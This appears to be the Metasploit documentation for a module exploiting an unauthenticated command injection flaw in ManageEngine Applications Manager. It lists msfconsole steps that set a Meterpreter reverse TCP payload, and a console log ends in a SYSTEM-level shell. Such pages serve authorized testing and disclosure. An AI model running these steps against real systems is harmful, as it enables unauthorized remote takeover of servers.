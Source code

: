 ## Vulnerable Application
This module exploits command injection vulnerability in the ManageEngine Applications Manager product. An unauthenticated user can execute a operating system command under the context of privileged user. Publicly accessible testCredential.do endpoint takes multiple user inputs and validates supplied credentials by accessing given system. This endpoint calls a several internal classes and then executes powershell script without validating user supplied parameter when the given system is OfficeSharePointServer.

**Vulnerable Application Installation Steps**

Go to following website and download Windows version of the product. It comes with built-in Java and Postgresql so you don't need to install anything else.
[http://archives.manageengine.com/applications_manager/13630/](http://archives.manageengine.com/applications_manager/13630/)

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/manageengine_appmanager_exec`
- [ ] Set `RHOST <RHOST>`
- [ ] Set `PAYLOAD windows/meterpreter/reverse_tcp`
- [ ] Set `LHOST <LHOST>`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target is vulnerable.` in console.
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Triggering the vulnerability` in console.
- [ ] **Verify** that you are seeing `Sending stage to <TARGET>` in console.
- [ ] **Verify** that you have your shell.

## Scenarios

```
msf5 > 
msf5 > use exploit/windows/http/manageengine_appmanager_exec 
msf5 exploit(windows/http/manageengine_appmanager_exec) > set RHOST 12.0.0.192
RHOST => 12.0.0.192
msf5 exploit(windows/http/manageengine_appmanager_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/manageengine_appmanager_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(windows/http/manageengine_appmanager_exec) > check
[+] 12.0.0.192:9090 The target is vulnerable.
msf5 exploit(windows/http/manageengine_appmanager_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Trigerring the vulnerability
[*] Sending stage (179779 bytes) to 12.0.0.192

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```